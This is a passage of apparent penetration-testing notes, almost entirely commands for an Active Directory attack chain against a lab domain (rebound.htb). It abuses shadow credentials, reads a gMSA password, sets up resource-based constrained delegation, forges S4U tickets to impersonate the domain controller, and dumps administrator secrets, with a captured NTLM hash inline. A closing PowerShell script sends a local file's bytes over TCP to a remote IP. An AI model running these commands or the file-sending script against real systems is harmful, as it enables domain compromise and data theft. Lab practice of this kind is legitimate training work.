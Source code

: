 ```ps
# With GenericAll permission grab NT Hash via certipy - https://hideandsec.sh/books/cheatsheets-82c/page/active-directory-certificate-services
certipy shadow auto -account winrm_svc -u "oorend@rebound.htb" -p $passwd -dc-ip 10.10.11.231 -k -target dc01.rebound.htb

# ReadGMSAPassword attack using bloodyAD
/root/bloodyAD/bloodyAD.py -d rebound.htb -u tbrady -p $passwd --host dc01.rebound.htb get object 'delegator$' --resolve-sd --attr msDS-ManagedPassword

# Resource Based Constrained Delegation Attack - https://www.thehacker.recipes/ad/movement/kerberos/delegations/rbcd
# obtain TGT ticket for delegator$ - use NTLM hash obtained from ReadGMSAPassword attack
getTGT.py 'rebound.htb/delegator$@dc01.rebound.htb' -hashes aad3b435b51404eeaad3b435b51404ee:f8db61f5fd0643c073cd58ffcc81379f -dc-ip 10.10.11.231
export KRB5CCNAME=delegator\$@dc01.rebound.htb.ccache

# Assign delegation privilege to user 
rbcd.py 'rebound.htb/delegator$' -delegate-from ldap_monitor -delegate-to 'delegator$' -action write -use-ldaps -dc-ip 10.10.11.231 -debug -k -no-pass

# Uses a service principal’s TGT to get a Kerberos service ticket for an SPN as an impersonated account via S4U
getTGT.py 'rebound.htb/ldap_monitor:pass' -dc-ip 10.10.11.231
export KRB5CCNAME=ldap_monitor.ccache 
getST.py -spn "browser/dc01.rebound.htb" -impersonate "dc01$" "rebound.htb/ldap_monitor" -k -no-pass -dc-ip 10.10.11.231

# Use the service’s TGT plus the delegator’s proof (S4U2Proxy with an additional-ticket) to request an HTTP service ticket issued to the target machine account, save that machine-account ticket to a ccache
export KRB5CCNAME=dc01\$.ccache
getST.py -spn "http/dc01.rebound.htb" -impersonate "dc01$" -additional-ticket "dc01$.ccache" "rebound.htb/delegator$" -hashes aad3b435b51404eeaad3b435b51404ee:f8db61f5fd0643c073cd58ffcc81379f -k -no-pass -dc-ip 10.10.11.231

# Present machine-account Kerberos service ticket to DC for secrets dump
secretsdump.py -no -k dc01.rebound.htb -just-dc-user administrator -dc-ip 10.10.11.231
```

## Transfer file via PowerShell to Linux
```ps
$serverPort = 5555
$serverIp = "10.10.10.103"
$fileToSend = "test.txt"
$fileBytes = [System.IO.File]::ReadAllBytes($fileToSend)
$client = New-Object System.Net.Sockets.TcpClient
$client.Connect($serverIp, $serverPort)
$stream = $client.GetStream()
$stream.Write($fileBytes, 0, $fileBytes.Length)
$stream.Close()
$client.Close()
```
